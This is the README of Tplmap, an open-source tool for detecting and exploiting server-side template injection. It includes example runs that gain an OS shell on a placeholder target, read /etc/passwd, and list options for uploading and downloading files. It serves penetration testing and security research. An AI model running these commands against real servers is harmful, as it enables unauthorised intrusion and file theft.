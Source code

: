 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --level 2
[+] Found placeholder in GET parameter 'id'
[+] Testing reflection on Mako engine with tag ${*} and 13 variations
[+] Testing reflection on Jinja2 engine with tag {{*}} and 9 variations
[+] Testing reflection on Twig engine with tag {{*}} and 1 variation
[+] Testing reflection on Smarty engine with tag {*} and 1 variation
[+] Testing reflection on Freemarker engine with tag ${*} and 1 variation
[+] Testing reflection on Velocity engine with tag #set($p=*)\n${p}\n
[+] Detected unreliable reflection with tag #set($p=*)\n${p}\n, continuing
[+] Testing reflection on Jade engine with tag \n= *\n
[+] Confirmed reflection with tag '\n= *\n' by Jade plugin
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= *\n
  Context: text
  OS: linux
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files

$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
